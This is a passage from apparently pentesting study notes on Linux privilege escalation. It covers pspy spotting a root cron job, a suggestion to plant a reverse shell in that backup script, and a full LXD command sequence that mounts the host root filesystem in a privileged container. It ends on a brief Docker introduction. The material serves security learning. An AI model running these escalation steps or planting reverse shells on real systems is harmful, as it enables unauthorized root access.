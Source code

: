 Let's run pspy and have a look. The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan procfs every 1000ms (or every second).

````
$ ./pspy64 -pf -i 1000

2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
````
From the above output, we can see that a cron job runs the backup.sh script located in the /dmz-backups directory and creating a tarball file of the contents of the /var/www/html directory.

Add command or reverse shell to this backup.sh

## LXD

**Containers**

Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

**Linux Containers**

Linux Containers (LXC) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security.

**Linux Daemon**

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the lxc or lxd group.

Exploitation
````
$ lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias imagetemp
$ lxc image list
$ lxc init imagetemp privesc -c security.privileged=true
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
# ls -l /mnt/root
````

## Docker

Docker is a popular open-source tool that provides a portable and consistent runtime environment for software applications. It uses containers as isolated environments in user space that run at the operating system level and share the file system and system resources.

Docker Architecture
